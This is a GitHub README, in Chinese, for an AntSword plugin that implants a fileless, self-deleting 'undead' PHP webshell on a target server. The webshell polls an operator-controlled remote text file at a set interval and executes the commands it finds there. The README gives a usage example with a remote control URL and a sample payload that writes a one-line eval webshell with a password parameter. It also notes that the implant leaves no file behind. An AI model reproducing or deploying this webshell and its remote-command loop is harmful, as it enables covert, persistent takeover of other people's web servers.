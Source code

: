 # inject_und3ad

中国蚁剑（Antsword）插件

向目标服务器植入不死php webshell

## 演示

* 权限维持

![inject_undead.png](./img/inject_undead.png)

点击左上角远程文件按钮，输入远程控制文件地址以及轮询时间（以秒为单位），点击确定即可（分隔符为###）

For example : http://192.168.134.128/1.txt###60   每60秒轮询一次http://192.168.134.128/1.txt里的内容

文件内容类似于 `file_put_contents('./1.php','<?php @eval($_POST[ph4ntom]); ?>')`;  (密码可自定义，路径也可自定义，此文件内容旨在每隔一段时间写入一个小马)

上述旨在利用php特性植入不死webshell，在执行完成后，此webshell会基于用户设置的轮询时间向用户设置的远程文件地址发送请求，用户只需在远程地址的txt文档中输入想要执行的命令即可
可。

此webshell在执行后会自身删除，驻留内存之中，无文件残留

清除办法包括重启web服务等

用户在植入不死webshell后，远程控制文件地址将会被记录，在第二次打开此界面时会在下方"历史远程控制文件"中看见

## 注意事项

  此插件仅支持php环境
  
  在远程文件上如果不打算执行命令，请在远程文件中写入一个空格，否则此webshell会退出。
  
  使用者不得用于非法用途
  
## Todo

  若发现问题，请与我联系并改进~
 

